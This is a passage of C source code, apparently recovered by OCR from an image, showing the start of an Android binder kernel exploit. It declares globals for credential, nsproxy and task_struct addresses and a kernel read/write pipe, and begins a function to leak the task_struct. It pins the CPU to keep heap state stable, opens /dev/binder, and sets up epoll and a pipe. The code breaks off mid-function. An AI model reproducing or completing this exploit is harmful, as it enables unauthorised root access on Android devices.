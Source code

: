 ```
void *m_pidAddress;
struct cred *m_cred;
void *m_credAddress;
void *m_nsproxyAddress;
int m_kernel_rw_pipe_fd[2] = {0};
struct task_struct * m_task_struct;

void leak_task_struct(void){


      int ret;
    cpu_set_t cpuSet;

    CPU_ZERO(&cpuSet);
    CPU_SET(0, &cpuSet);

    //
    // It's a good thing to bind the CPU to a specific core,
    // so that we do not get scheduled to different core and
    // mess up the SLUB state
    //

    printf("[+] Binding to 0th core\n");

    ret = sched_setaffinity(0, sizeof(cpu_set_t), &cpuSet);

    if (ret < 0) {
        printf("[-] bindCPU failed: 0x%x\n", errno);
    }



    int pipe_fd[2] = {0};
    ssize_t nBytesRead = 0;
    static char dataBuffer[PAGE_SIZE] = {0};
    struct iovec iovecStack[IOVEC_COUNT]= {nullptr};
   
    printf("[+] start opening /dev/binder");
    m_binder_fd = open("/dev/binder",O_RDONLY);
    if (m_binder_fd < 0) {
            printf("\t[-] Unable to get binder fd\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] m_binder_fd: 0x%x\n", m_binder_fd);
        }


    printf("[+] Creating event poll\n");
   
        m_epoll_fd = epoll_create(1);
   
       if (m_epoll_fd < 0) {
            printf("\t[-] Unable to get event poll fd\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] m_epoll_fd: 0x%x\n", m_epoll_fd);
        }


    printf("[+] setting up the pipe");
    if(pipe(pipe_fd)== -1){
        printf("[-] unable create pipe\n");
        exit(EXIT_FAILURE);
```